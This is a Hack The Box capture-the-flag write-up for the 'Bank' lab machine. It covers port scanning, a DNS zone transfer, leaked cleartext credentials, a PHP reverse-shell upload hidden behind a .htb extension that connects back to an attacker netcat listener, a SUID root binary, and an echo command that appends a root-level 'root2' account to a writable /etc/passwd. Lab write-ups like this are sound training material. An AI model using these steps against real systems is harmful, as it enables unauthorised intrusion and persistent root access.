 # HTB - Bank

#### Ip: 10.10.10.29
#### Name: Bank
#### Rating: Easy

----------------------------------------------------------------------

![Bank.png](../assets/bank_assets/Bank.png)

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/HTB/Bank]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.29         
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-20 09:18 CDT
Nmap scan report for 10.10.10.29
Host is up (0.092s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

Lets enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Bank]
└─$ sudo nmap -sC -sV -T4 10.10.10.29 -p 22,53,80       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-20 09:18 CDT
Nmap scan report for 10.10.10.29
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08eed030d545e459db4d54a8dc5cef15 (DSA)
|   2048 b8e015482d0df0f17333b78164084a91 (RSA)
|   256 a04c94d17b6ea8fd07fe11eb88d51665 (ECDSA)
|_  256 2d794430c8bb5e8f07cf5b72efa16d67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.27 seconds
```

Based on normal HacktheBox naming conventions, lets add bank.htb to the `/etc/hosts` file and see if we can do any type of zone transfer, seeing how DNS is open here.

Ok cool, looks like we got a few entries back from the zone transfer. Lets also add these to `/etc/hosts` before moving on to HTTP.

![dns.png](../assets/bank_assets/dns.png) 

Navigating to just the IP, it looks like we've got just a default landing page for Apache.

![landing.png](../assets/bank_assets/landing.png)

but if we go to bank.htb we are forwarded to bank.htb/login.php where met with a simple login:

![login.png](../assets/bank_assets/login.png)

Cool, now  that we know PHP is being used we can do some directory busting, and make sure to include fuzzing for .php pages as well.

![directory.png](../assets/bank_assets/directory.png)

Note: I had to include the `--filter-status 404` flag because I was getting so many 404 errors, and I just like to use the `-q`  (quiet) flag to bypass any graphics and keep my screenshots more tidy.

Cool, we found some interesting directories. `/balance-transfer` seems especially interesting.

In the `/balance-transfer` directory we find a large number of .acc files:

![bt.png](../assets/bank_assets/bt.png)

We can download these files and they appear to have hashed user information, including credentials:

![dl.png](../assets/bank_assets/dl.png)

Looking at the size of these files they all appear to be somewhere between 580-585, but if we sort them by their size rather than by name, we find one that is considerably smaller:

![size.png](../assets/bank_assets/size.png)

Downloading this file we can see why it is so much smaller than the others. Looks like we've got an Encryption Failed error message, and this user's data was stored in clear-text.

![chris.png](../assets/bank_assets/chris.png)

Great, we can use these credentials to login to the site:

![chris_login.png](../assets/bank_assets/chris_login.png)

### Exploitation

Navigating around the site, we find a File Upload feature in the support page.

![support.png](../assets/bank_assets/support.png)

After having a hard time getting anything to load succesfully, I take a look at the page source and find a super interesting comment left behind:

![htb.png](../assets/bank_assets/htb.png)

Now that's interesting. Because we know the site is using PHP, lets grab a copy of PentestMonkey's php-reverse-shell.php and rename it as shell.htb.

First, we'll need to update the script with our correct IP adress and the port we'll listen on:

![php-rev.png](../assets/bank_assets/php-rev.png)

We can then upload the file:

![success.png](../assets/bank_assets/success.png)

Recalling the `/uploads` directory discovered earlier, we can trigger the shell by navigating to bank.htb/uploads/shell.htb

And catch a shell back as www-data:

```text
┌──(ryan㉿kali)-[~/HTB/Bank]
└─$ nc -lnvp 443                 
listening on [any] 443 ...
connect to [10.10.14.37] from (UNKNOWN) [10.10.10.29] 46908
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 i686 i686 GNU/Linux
 18:29:18 up 23:07,  0 users,  load average: 0.00, 0.03, 0.59
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
bank
```

After stabilizing the shell with `python3 -c 'import pty;pty.spawn("/bin/bash")'` we can grab the user.txt flag:

![user_flag.png](../assets/bank_assets/user_flag.png)

From here I'll transfer over linpeas for further enumeration of a privilege escalation vector:

![lp_tranfer.png](../assets/bank_assets/lp_transfer.png)

### Privilege Escalation #1

Linpeas finds `/var/htb/bin/emergency` which in an unkown SUID binary (these are almost always worth investigating..)

![suid.png](../assets/bank_assets/suid.png)

Doing just a little more recon on the file, I see it is owned by root and I can execute it. Now I can simply run it and instantly drop into a root shell:

```text
www-data@bank:/tmp$ file /var/htb/bin/emergency
/var/htb/bin/emergency: setuid ELF 32-bit LSB  shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=1fff1896e5f8db5be4db7b7ebab6ee176129b399, stripped
www-data@bank:/tmp$ ls -la /var/htb/bin/emergency
-rwsr-xr-x 1 root root 112204 Jun 14  2017 /var/htb/bin/emergency
www-data@bank:/tmp$ cd /var/htb/bin
www-data@bank:/var/htb/bin$ ls
emergency
www-data@bank:/var/htb/bin$ ./emergency
# whoami
root
# hostname
bank
```

From here I can grab the root.txt flag:

![root_flag.png](../assets/bank_assets/root_flag.png)

### Privilege Escalation #2

Linpeas also finds that the `/etc/passwd` file is writable. This lets us essentially give ourselves the keys to the kingdom! Lets add user root2 with root permissions:

![passwd_write.png](../assets/bank_assets/passwd_write.png)

```text
www-data@bank:/var/htb/bin$ openssl passwd password123
Warning: truncating password to 8 characters
uE5rNVxNCU7r2
< echo "root2:uE5rNVxNCU7r2:0:0:root:/root:/bin/bash" >> /etc/passwd          
www-data@bank:/var/htb/bin$ su root2
Password: 
root@bank:/var/htb/bin# whoami
root
root@bank:/var/htb/bin# hostname
bank
```
And that's that! Thanks for following along!

-Ryan

---------------------------------------------

